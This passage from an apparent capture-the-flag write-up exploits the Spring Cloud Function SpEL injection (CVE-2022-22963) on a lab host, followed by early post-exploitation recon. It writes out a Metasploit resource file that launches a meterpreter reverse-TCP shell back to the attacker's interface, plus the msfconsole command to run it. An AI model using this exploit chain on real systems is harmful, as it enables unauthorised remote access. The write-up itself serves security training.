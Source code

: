 A proof of Concept can be found on github [Here](https://github.com/lemmyz4n3771/CVE-2022-22963-PoC)

A metasploit module is available to exploit this vulnerability [Here](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/spring_cloud_function_spel_injection)

Create `inject.rc` file :

```shell
use exploit/multi/http/spring_cloud_function_spel_injection
set payload linux/x64/meterpreter/reverse_tcp
set RHOSTS 10.10.11.204
set SRVHOST tun0        
set LHOST tun0
set LPORT 4445
show options
run
```

Execute :

```shell
msfconsole -q -r inject.rc
```

and a meterpreter shell open on target

## Post-Exploitation

### Host Reconnaissance

The meterpreter shell is open under user `frank` :

```shell
meterpreter > getuid
```

Result:

```text
Server username: frank
```

There is 2 user home folders: frank and phil :

```shell
meterpreter > ls /home
```

Result:

```text
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2023-04-11 03:23:50 +0200  frank
040755/rwxr-xr-x  4096  dir   2023-04-11 03:32:58 +0200  phil
```
